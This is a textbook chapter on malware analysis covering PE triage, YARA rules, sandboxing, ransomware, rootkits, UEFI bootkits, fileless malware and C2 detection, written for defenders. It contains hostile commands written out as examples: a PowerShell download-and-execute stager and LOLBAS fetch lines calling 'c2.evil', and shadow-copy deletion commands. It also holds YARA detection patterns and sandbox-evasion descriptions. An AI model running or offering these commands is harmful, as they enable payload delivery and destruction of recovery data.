

Chapter 20: Malware Analysis¶
Malware analysis is the discipline of dissecting malicious software to understand its capabilities, persistence mechanisms, command-and-control infrastructure, and indicators of compromise. Analysts combine static and dynamic techniques to characterise threats without compromising production systems.
20.1 Malware Taxonomy¶
Definition 20.1 (Malware Classification)
Malicious software is classified by propagation method, payload, and interaction with the host:
-
Virus – Self-replicates by infecting legitimate files; requires user execution of the infected host.
-
Worm – Self-propagates across networks without user interaction (e.g., exploiting vulnerabilities).
-
Trojan – Disguises itself as legitimate software to trick users into execution; does not self-replicate.
-
Ransomware – Encrypts victim files and demands payment for decryption keys.
-
Rootkit – Achieves persistence while hiding its presence from the OS and security tools (kernel-level or user-mode).
-
Bootkit – Infects the Master Boot Record or UEFI firmware to execute before the OS loads.
-
RAT (Remote Access Trojan) – Provides the attacker with interactive remote access and control.
-
Botnet – A network of compromised hosts (bots) controlled by a command-and-control server for coordinated attacks.
-
Fileless Malware – Executes entirely in memory using legitimate OS tools (PowerShell, WMI), leaving minimal disk artefacts.
-
Spyware/Adware – Covertly monitors user activity or injects advertisements.
20.2 Static Analysis Workflow¶
Static analysis examines a binary without executing it, identifying suspicious characteristics while keeping the analyst system safe. The workflow runs from initial triage through structure analysis, as described below.
Definition 20.2 (Static Analysis)
Static analysis encompasses all techniques applied to a binary file without running it: cryptographic identification, string extraction, PE structure analysis, entropy measurement, and signature matching.
[language=bash, caption={Initial triage: hashing and strings},basicstyle= ]
# Compute file hashes for deduplication and threat intel lookup
md5sum malware.exe
sha256sum malware.exe
# Look up SHA256 on VirusTotal:
# curl "https://www.virustotal.com/api/v3/files/<SHA256>" \
# -H "x-apikey: $VT_API_KEY" | python3 -m json.tool
# Extract printable ASCII and Unicode strings
strings -n 6 malware.exe | grep -iE \
"(http|cmd|power|shell|regsvr|rundll|CreateProcess|WinExec)"
# Extract UTF-16 strings (common in Windows PE files)
strings -el malware.exe
# Detect packing / obfuscation with Detect-It-Easy
die malware.exe
# Output: PE64, compiler: Microsoft Visual C++ 2019, packer: UPX 3.96
20.2.1 PE File Structure¶
Definition 20.3 (Portable Executable (PE) Structure)
Windows executables use the PE format, consisting of:
-
DOS Header – Starts with
MZ(0x4D5A); contains offset to PE header. -
PE Header (COFF) – Machine type, number of sections, timestamp, optional header with entry point and image base.
-
Section Table – Describes each section:
.text(code),.data(initialised data),.rdata(read-only data),.rsrc(resources),.reloc(relocations). -
Import Directory – Lists DLLs and functions the binary calls (e.g.,
kernel32.dll !VirtualAlloc,wininet.dll !InternetOpenA). -
Export Directory – Functions exposed to other modules (present in DLLs).
import pefile, math, sys
def entropy(data):
"""Calculate Shannon entropy of a byte string."""
if not data:
return 0.0
freq = [data.count(bytes([b])) for b in range(256)]
length = len(data)
return -sum((f/length) * math.log2(f/length)
for f in freq if f > 0)
pe = pefile.PE(sys.argv[1])
print("=== Imports ===")
for entry in getattr(pe, 'DIRECTORY_ENTRY_IMPORT', []):
dll = entry.dll.decode()
funcs = [imp.name.decode() for imp in entry.imports if imp.name]
print(f" {dll}: {', '.join(funcs[:5])}")
print("\n=== Section Entropy ===")
for section in pe.sections:
name = section.Name.rstrip(b'\x00').decode()
ent = entropy(section.get_data())
flag = " << HIGH ENTROPY (packed/encrypted?)" if ent > 7.0 else ""
print(f" {name:10s} entropy={ent:.3f}{flag}")
20.3 YARA Rules¶
Definition 20.4 (YARA)
YARA is a pattern-matching tool for identifying and classifying malware based on textual or binary patterns (strings), combined with Boolean conditions. YARA rules are the de-facto standard for threat hunting and malware classification in both endpoint security products and threat intelligence platforms.
rule SuspiciousPowerShellLoader {
meta:
description = "Detects PE with PowerShell execution via WinAPI"
author = "Analyst Team"
severity = "high"
strings:
$mz = { 4D 5A } // MZ header
$ps_encoded = "powershell" nocase
$bypass = "-ExecutionPolicy Bypass" nocase
$virt_alloc = "VirtualAlloc" nocase
$create_thrd = "CreateRemoteThread" nocase
condition:
$mz at 0 and
($ps_encoded or $bypass) and
($virt_alloc or $create_thrd)
}
rule RansomwareVSSDelete {
meta:
description = "Detects shadow copy deletion (ransomware behaviour)"
tlp = "WHITE"
strings:
$vss1 = "vssadmin delete shadows" nocase
$vss2 = "wmic shadowcopy delete" nocase
$vss3 = { 76 73 73 61 64 6D 69 6E } // "vssadmin" hex
$wbadmin = "wbadmin delete catalog" nocase
condition:
any of ($vss1, $vss2, $vss3, $wbadmin)
}
# Scan single file
yara -r rules/ malware.exe
# Scan directory recursively, show matching rule + file
yara -r /opt/yara-rules/malware/ /var/quarantine/
# Integrate with VirusTotal Intelligence (requires API subscription)
# vt hunt rulesets create --name "PowerShellLoaders" \
# --rules rules/suspicious_ps.yar
20.3.1 YARA Rules for Malware Classification: Structure and PE Conditions¶
A YARA rule combines three elements: metadata (informational, not used in matching), strings (byte patterns, text patterns, or regular expressions), and a condition (a Boolean expression over the strings and built-in PE module attributes). The power of YARA comes from mixing content matching with structural conditions on the binary format.
The pe module gives rules access to PE header fields without string matching: pe.number_of_sections, pe.imphash(), pe.exports(), pe.machine (architecture), pe.timestamp (compilation timestamp), and pe.section_ index(".text"). characteristics. A well-crafted rule for a specific malware family might match a combination of: an import hash that places the binary in the same compilation environment as known samples, a specific export function name, a mutex string seen in dynamic analysis, and a PE section with entropy above 7.5 (indicating packed or encrypted payload). This multi-condition approach dramatically reduces false positives compared to single-string rules.
Import hash (imphash) for family attribution.
The import hash (imphash) is an MD5 hash of the normalised import table: DLL names and function names are lowercased, sorted, and concatenated before hashing. Malware built from the same source code with the same compiler settings will have the same imphash regardless of the binary’s content. VirusTotal displays the imphash for every PE file, and threat intelligence databases like Threat Intelligence Platform correlate samples by imphash. When you encounter a new sample, searching VirusTotal for the imphash often surfaces related samples that attribution teams have already classified, giving you a starting point for family identification. The limitation: repacking with UPX or encrypting the import table (a common obfuscation technique) changes the imphash. Analysts therefore use imphash alongside other features rather than in isolation.
PEiD patterns.
PEiD (PE IDentifier) is an older tool whose signature database identifies packers, compilers, and protectors by matching byte patterns at the entry point and in specific sections. The PEiD database (now integrated into Detect-It-Easy as db.txt) contains thousands of signatures in the format [pattern at offset] = compiler/packer name. These signatures identify, for example, UPX-packed binaries (60 BE ?? ?? ?? ?? 8D BE at entry point), MPRESS-packed binaries, or Delphi-compiled executables (which have distinctive VCL import patterns). Knowing the packer is the prerequisite for unpacking: different packers require different techniques to reach the original entry point (OEP) and dump the unpacked binary.
20.4 Dynamic Analysis¶
Definition 20.5 (Dynamic Analysis)
Dynamic analysis executes the malware sample in a controlled environment (sandbox or isolated VM) and observes its runtime behaviour: API calls, file system changes, registry modifications, network connections, and child process creation.
Dynamic Analysis Toolchain
-
Cuckoo Sandbox – Open-source automated malware analysis system; reports API calls, network traffic, dropped files.
-
ANY.RUN – Interactive cloud sandbox; analyst controls the sample in real time; extracts IoCs and MITRE ATT&CK mapping.
-
Process Monitor (ProcMon) – Sysinternals; captures all file, registry, and process/thread events.
-
API Monitor – Hooks Windows API calls; shows arguments and return values.
-
FakeNet-NG – Simulates network services (DNS, HTTP, SMTP) to capture C2 communication without internet access.
-
Wireshark – Captures all network packets for offline analysis.
20.4.1 Sandbox Detection and Evasion Techniques¶
Sophisticated malware knows it may be running in an automated sandbox and changes behaviour accordingly — either by doing nothing malicious (making the sandbox report “clean”) or by terminating immediately. Understanding these techniques helps analysts design sandbox environments that are harder to detect.
Environmental fingerprinting.
The most common checks are:
-
Short system uptime: Cuckoo and similar sandboxes boot a fresh VM for each analysis, meaning uptime is typically under 5 minutes. Real user machines have been running for hours or days. Malware calls
GetTickCount()or reads\.\ PHYSICALDRIVE0and bails out if uptime is under a threshold. Sandbox countermeasure: patch the VM’s uptime to a realistic value before detonation. -
Low process count: A freshly booted analysis VM has 30–40 processes. A real user’s machine running Office, a browser, Teams, and background services has 150–250 processes. Malware calls
EnumProcessesand counts. Counter: run a process injection tool to inflate the process list. -
VM artefacts: VMware guest additions leave registry keys (
HKLM\SOFTWARE\ VMware, Inc.\VMware Tools), registry values, and driver files (vmhgfs.sys,vmci.sys). VirtualBox leavesVBoxService.exeandVBOXregistry keys. CPUID hypervisor bit (ECX bit 31 on CPUID leaf 1) indicates a virtualised environment. -
Screen resolution and input: Sandbox VMs often run at 800x600 or 1024x768 with no user interaction. Malware calls
GetSystemMetricsto check resolution andGetLastInputInfoto verify that mouse movement or keystrokes have occurred recently. If no user interaction is detected, the malware sleeps or exits. -
Sleep evasion: Malware calls
Sleep(600000)(10 minutes) to outlast sandbox timeouts (typically 2–5 minutes). Sandboxes patchSleepto return immediately, but sophisticated malware uses alternative timing methods:NtDelayExecution, busy-wait loops, or cryptographic computations designed to take a specific amount of time.
What this means for analysis.
Behavioural analysis must account for evasion. A sample that shows no malicious behaviour in a 3-minute automated sandbox run may be highly active at the 10-minute mark. Manual analysis with interactive sandboxes (ANY.RUN with user interaction simulation) or analysis in a bare-metal environment (no VM artefacts) reveals evasive samples. Analysts should also look for the evasion checks themselves in static analysis: calls to GetTickCount, EnumProcesses, GetSystemMetrics, IsDebuggerPresent, and CheckRemoteDebuggerPresent in the import table are strong indicators that the sample is environment-aware, warranting additional analysis time and a hardened sandbox configuration.
20.5 Ransomware Analysis¶
Example 20.1 (Ransomware Encryption Scheme Analysis)
Modern ransomware uses a hybrid encryption scheme to prevent offline decryption:
-
Malware contains (or fetches) the attacker’s RSA public key.
-
For each victim, malware generates a random AES-256 key.
-
Files are encrypted with AES-256 (CBC or CTR mode).
-
The AES key is encrypted with the attacker’s RSA public key and stored in the ransom note or alongside the encrypted file.
-
Decryption is only possible with the attacker’s RSA private key, which remains on their server.
Analysis target: extract the embedded RSA public key from the binary; determine whether IV is reused (enables cryptanalysis); check for keylogging of the generated AES key before encryption.
# Shadow copy deletion (most ransomware families)
# Monitor for:
wmic shadowcopy delete
vssadmin delete shadows /all /quiet
bcdedit /set {default} recoveryenabled No
# File extension changes (monitor with ProcMon filter: "Path ends with")
# .locked, .encrypted, .RYUK, .conti, .[random 5-8 chars]
# Network: C2 check-in before encryption begins
# Often POST to /gate.php or /check-in with victim ID + system info
# Registry: persistence before encryption
# HKCU\Software\Microsoft\Windows\CurrentVersion\Run
# HKLM\SYSTEM\CurrentControlSet\Services\[servicename]
20.6 Rootkit Techniques¶
Definition 20.6 (SSDT Hook)
The System Service Descriptor Table (SSDT) maps system call numbers to kernel function addresses. A kernel rootkit modifies SSDT entries to redirect calls to system functions (e.g., NtQueryDirectoryFile) through rootkit-controlled code that filters out hidden processes or files before returning results to user space.
Definition 20.7 (DKOM (Direct Kernel Object Manipulation))
DKOM modifies kernel data structures in memory to hide objects from the OS. Unlinking a process from the PsActiveProcessHead doubly linked list, for example, causes it to be invisible to tasklist and Task Manager while the process continues to execute.
20.6.1 UEFI Bootkits: Pre-OS Persistence¶
Traditional rootkits operate inside the OS kernel and can be removed by booting from external media and cleaning the infected volume. UEFI bootkits take persistence to the firmware level, executing before the OS loader starts and surviving both OS reinstallation and hard drive replacement. They represent the deepest and most difficult-to-remediate class of persistence known to affect commodity hardware.
How UEFI bootkits work.
The UEFI firmware stored in SPI (Serial Peripheral Interface) flash memory on the motherboard initialises hardware, then reads the EFI System Partition (ESP) on the boot drive and executes the bootloader stored there (e.g., EFI\Microsoft\Boot\bootmgfw.efi). A bootkit can insert itself at two points:
-
SPI flash implant: Modify the UEFI firmware image in the SPI flash chip itself. This survives OS reinstall and hard drive replacement because the flash is on the motherboard. Writing to SPI flash typically requires ring-0 (kernel) access to disable write protection, or physical access with a flash programmer.
-
ESP bootloader replacement: Replace the bootloader on the EFI System Partition with a malicious one that loads the legitimate OS bootloader after establishing persistence. This is easier to deploy (filesystem write access suffices) but is removed by reinstalling the OS or reformatting the ESP.
In both cases, the bootkit can disable Secure Boot by replacing or manipulating the UEFI Secure Boot database (db/dbx UEFI variables), disable BitLocker by manipulating TPM PCR measurements, or inject malicious code into the Windows kernel before any security software loads.
Real-world examples.
LoJax (2018, APT28/Fancy Bear) was the first publicly documented in-the-wild UEFI rootkit. It modified the UEFI firmware image stored in SPI flash on targeted Windows laptops, adding a malicious UEFI module that dropped a Windows trojan to disk on every boot. It was discovered by ESET researchers through analysis of a targeted attack against European government entities. LoJax persisted through OS reinstall on affected machines because the SPI flash was not updated during reinstall.
MosaicRegressor (2020, attributed to a Chinese-linked APT) was found deployed against NGOs and diplomatic entities. It used a compromised UEFI firmware image to maintain a loader that fetched additional payloads from C2 infrastructure on each boot. Kaspersky researchers discovered it through analysis of memory artifacts and UEFI capsule images collected during incident response.
FinFisher/FinSpy (commercial surveillance tool) has used both ESP-level and SPI-level persistence in different versions, making it one of the earliest commercially sold tools to implement UEFI implant capabilities.
Detection.
Standard EDR and AV tools cannot detect SPI-level implants because they run after the OS has loaded and the malicious code is already in control. Detection requires:
-
Chipsec: An open-source framework (Intel) that reads the SPI flash contents directly via kernel-level MMIO access and compares the firmware image against a known-good baseline. Running
chipsec_main.pywith thetools.uefi.whitelistmodule checks for unexpected UEFI modules. This requires a pre-compromise baseline and kernel-level execution, typically as part of a trusted boot environment. -
Measured boot via TPM: The UEFI firmware measures (computes SHA-256 hashes of) each component it executes and extends the measurements into TPM PCR registers. The sequence: UEFI ROM hash into PCR0, EFI boot manager into PCR4, OS bootloader into PCR8, and so on. A remote attestation service can verify that PCR values match expected values for clean firmware. Any modification to UEFI code changes the PCR chain and produces a measurably different PCR state. Microsoft’s Secure Launch (DRTM) and attestation via Microsoft Azure Attestation or AMD SEV-SNP implement this in enterprise environments.
-
Secure Boot prevents unauthorised code from executing in the UEFI pre-boot environment by verifying digital signatures on bootloaders and OS kernels. It does not prevent SPI flash modification (an attacker with physical access can write new firmware directly), but it prevents unsigned bootloader replacement on the ESP and raises the bar for software-only implants.
Remediation.
A confirmed SPI-level implant requires a firmware re-flash with a known-good image using the vendor’s recovery process (which typically involves a USB drive with a firmware capsule and a BIOS reset). Simply reinstalling Windows does not help. In some cases, motherboard replacement is the only assured remediation path if the SPI flash protection fuses are not set. Organisations with high-value targets (classified government systems, critical infrastructure operators) maintain hardware baseline images and periodically re-flash firmware as part of their supply-chain security programme.
20.7 Fileless Malware and LOLBAS¶
PowerShell In-Memory Execution
Fileless malware uses built-in OS tools to avoid writing executable files to disk, evading file-based AV:
# Download and execute in memory (commonly used by stagers)
powershell -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden \
-Command "IEX (New-Object Net.WebClient).DownloadString(\
'http://c2.evil/payload.ps1')"
# Reflective DLL injection: load DLL from memory without LoadLibrary
# CreateRemoteThread -> shellcode -> loads PE from heap
# LOLBAS examples (Living Off the Land Binaries and Scripts):
# mshta.exe http://c2.evil/payload.hta
# regsvr32.exe /s /n /u /i:http://c2.evil/com.sct scrobj.dll
# certutil.exe -urlcache -split -f http://c2.evil/nc.exe nc.exe
Detection: Script Block Logging (HKLM\ SOFTWARE\Policies\Microsoft\ PowerShell\ScriptBlockLogging); Constrained Language Mode; monitor for CreateRemoteThread cross-process injection.
20.8 C2 Communication Patterns¶
Definition 20.8 (Domain Generation Algorithm (DGA))
DGAs generate a large number of pseudo-random domain names using a seed (often the current date). The malware and attacker independently generate the same list; the attacker registers only a small subset. This prevents static blocklisting of C2 domains. Detection: DNS queries for high-entropy, algorithmically structured domains that resolve to a single IP; NX-domain query ratio.
20.8.1 C2 Protocol Analysis in Depth¶
Modern malware families use varied communication protocols to blend into normal network traffic and avoid signature-based detection. Understanding each protocol’s fingerprint and detection approach is a core skill for network defenders.
HTTP/S beaconing with jitter.
The most common C2 pattern is periodic HTTP or HTTPS requests to the C2 server (“beaconing”). The malware agent sleeps for a configured interval (often 60 seconds), wakes up, sends a check-in request (often a POST to a path like /gate.php or a fake favicon request) containing encoded victim data, receives tasking, sleeps again. The predictable periodicity creates a detectable signal: network flow records show regular connections to the same host at near-fixed intervals.
To defeat period-based detection, sophisticated C2 frameworks (Cobalt Strike, Brute Ratel C4) add jitter — a random variation applied to the sleep interval. With 30% jitter on a 60-second beacon, each sleep is between 42 and 78 seconds. The average is still 60 seconds, but no individual interval is predictable. Detection shifts from looking for fixed intervals to looking for statistical regularity: a host that makes exactly one outbound HTTPS request per minute (on average) to the same IP over many hours is almost certainly beaconing even with jitter. Tools like RITA (Real Intelligence Threat Analytics) perform beacon analysis by computing inter-connection timing statistics across NetFlow records.
Malleable C2 profiles (Cobalt Strike’s configuration system) go further, allowing the C2 traffic to mimic specific legitimate applications — replicating Amazon S3 request headers, Google Analytics parameters, or Microsoft Teams API calls. JA3 fingerprinting partially defeats this by fingerprinting the TLS ClientHello, but malleable profiles can randomise ClientHello parameters to defeat JA3.
DNS tunneling.
DNS tunneling encodes data in DNS query names and TXT or A record responses, exploiting the fact that most firewalls permit DNS traffic. Data is base64-encoded and split across subdomain labels: aGVsbG8gd29ybGQ.c2.attacker.com carries the data aGVsbG8gd29ybGQ (base64 for “hello world”) to the attacker’s authoritative DNS server. The attacker’s server decodes the query, executes the command, and returns the response encoded in the TXT record value. Tools like iodine and dnscat2 implement full bidirectional tunnels over DNS.
Detection indicators for DNS tunneling include: (1) unusually long query names (legitimate DNS queries average 30–40 bytes; tunneled queries often exceed 100 bytes); (2) high frequency of queries to a single authoritative server; (3) high NX-domain ratio (failed lookups from timing issues or encoding errors); (4) queries with high entropy in subdomain labels (base64 has higher entropy than human-readable subdomains); (5) TXT record responses that are unusually long or high-entropy. Network-level detection tools like Zeek with the dns-tunneling package and commercial NDR platforms flag these patterns automatically.
Domain Generation Algorithms in depth.
DGAs seed a pseudo-random number generator with a deterministic value — commonly the current date, a hardcoded constant, or data fetched from a public website (e.g., the current Bitcoin block hash, which serves as a shared seed that both malware and attacker compute independently). The PRNG produces a sequence of domain names, often 1,000 to 50,000 per day. The malware iterates through the list, attempting to resolve each domain. The attacker pre-registers a small subset (perhaps 10–20) and points them at the C2 infrastructure. Even if defenders blocklist today’s active C2 domains, the malware moves to tomorrow’s generated list.
DGA detection approaches: (1) machine learning classifiers trained on character n-grams and length distributions (DGA domains look random; legitimate domains have English words or brand names); (2) DNS NX-domain monitoring — a host querying dozens of NXDOMAIN responses per minute before a successful resolution is likely iterating a DGA list; (3) DGA reverse-engineering — if analysts extract the seed algorithm from a sample through static or dynamic analysis, they can pre-compute the entire domain list, register sinkhole domains for all of them, and observe all victim check-ins. The Cisco Umbrella security team has published seed algorithms for dozens of DGA families.
20.9 Malware Analysis Tools Reference¶
| Tool | Category | Purpose |
|---|---|---|
| Detect-It-Easy (DIE) | Static | Compiler / packer identification |
| PEStudio | Static | PE structure, imports, strings, entropy |
| YARA | Static | Pattern-based malware classification |
| Ghidra | RE / Static | NSA open-source disassembler/decompiler |
| IDA Pro | RE / Static | Industry-standard interactive disassembler |
| x64dbg | Dynamic / RE | Windows user-mode debugger |
| Process Monitor | Dynamic | File/registry/process event capture |
| Cuckoo Sandbox | Dynamic | Automated malware analysis (on-prem) |
| ANY.RUN | Dynamic | Interactive cloud sandbox with IoC extract |
| FakeNet-NG | Dynamic | Network simulation for C2 analysis |
| Volatility 3 | Memory | Memory dump analysis and process listing |
| VirusTotal | Intel | Multi-AV + behavioural analysis; IoC search |
20.10 Malware Analysis Workflow¶

20.11 Exercises¶
Exercise 20.1
Write a YARA rule to detect ransomware samples that exhibit the following characteristics: (a) a valid PE header, (b) shadow copy deletion via vssadmin or wmic, (c) references to common file extensions targeted by ransomware (e.g., .docx, .xlsx, .pdf), and (d) network connectivity imports (wininet.dll or ws2_32.dll). Test your rule against a benign executable to verify there are no false positives.
Exercise 20.2
Describe how a PowerShell-based fileless malware attack evades traditional file-based antivirus detection. What artefacts, if any, does such an attack leave on disk, in the registry, and in memory? List three detection controls that specifically target fileless malware, explaining the technical basis for each.
Exercise 20.3
A malware sample is observed making DNS queries at regular 5-minute intervals to domains with the pattern [8-character-random].c2domain.com. Identify this behaviour pattern and explain the DGA mechanism. Describe how you would: (a) confirm it is a DGA using static analysis, (b) predict future C2 domains if the seed algorithm is discovered, and (c) deploy network-level detection for this C2 pattern without knowing the specific domains in advance.